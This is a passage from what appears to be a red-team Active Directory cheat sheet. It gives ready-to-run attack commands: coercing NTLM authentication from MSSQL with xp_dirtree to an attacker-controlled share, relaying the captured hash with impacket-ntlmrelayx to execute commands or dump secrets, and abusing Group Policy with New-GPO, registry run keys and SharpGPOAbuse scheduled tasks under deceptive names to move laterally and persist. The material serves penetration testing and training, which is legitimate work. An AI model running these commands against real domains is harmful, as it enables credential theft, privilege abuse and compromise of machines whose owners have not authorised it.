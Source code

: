 PowerShell

If you have low-privileged access to a MSSQL database and no links are present, you could potentially force NTLM authentication by using the `xp_dirtree` stored procedure to access this share. If this is successful, the NetNTLM for the SQL service account can be collected and potentially cracked or relayed to compromise machines as that service account.

EXEC master..xp_dirtree "\\192.168.49.67\share"

SQL

Example command to relay the hash to authenticate as local admin (if the service account has these privileges) and run `calc.exe`. Omit the `-c` parameter to attempt a `secretsdump` instead.

sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.67.6 -c 'calc.exe'

Bash

# Abusing Group Policy Objects for lateral movement

If we identify that we have the permissions to edit and link new Group Policy Objects (GPOs) within the domain (refer to [‘AD Enumeration With PowerView’](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview)), we can abuse these privileges to move laterally towards other machines.

As an example, we can use the legitimate [Remote System Administration Tools](https://docs.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) (RSAT) for Windows to create a new GPO, link it to the target, and deploy a registry runkey to add a command that will run automatically the next time the machine boots.

# Create a new GPO and link it to the target server  
New-GPO -Name 'Totally Legit GPO' | New-GPLink -Target 'OU=TargetComputer,OU=Workstations,DC=TargetDomain,DC=com'# Link an existing GPO to another target server  
New-GPLink -Target 'OU=TargetComputer2,OU=Workstations,DC=TargetDomain,DC=com' -Name 'Totally Legit GPO'# Deploy a registry runkey via the GPO  
Set-GPPrefRegistryValue -Name 'Totally Legit GPO' -Context Computer -Action Create -Key 'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' -ValueName 'Updater' -Value 'cmd.exe /c calc.exe' -Type ExpandString

PowerShell

We can also use [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) to deploy an immediate scheduled task, which will run whenever the group policy is refreshed (every 1–2 hours by default). SharpGPOABuse does not create its own GPO objects, so we first have to run the commands for creating and linking GPOs listed above. After this, we can run SharpGPOAbuse to deploy the immediate task.

SharpGPOAbuse.exe --AddComputerTask --TaskName "Microsoft LEGITIMATE Hotfix" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c start calc.exe" --GPOName "Totally Legit GPO"

# Post-Exploitation

# LSASS protection
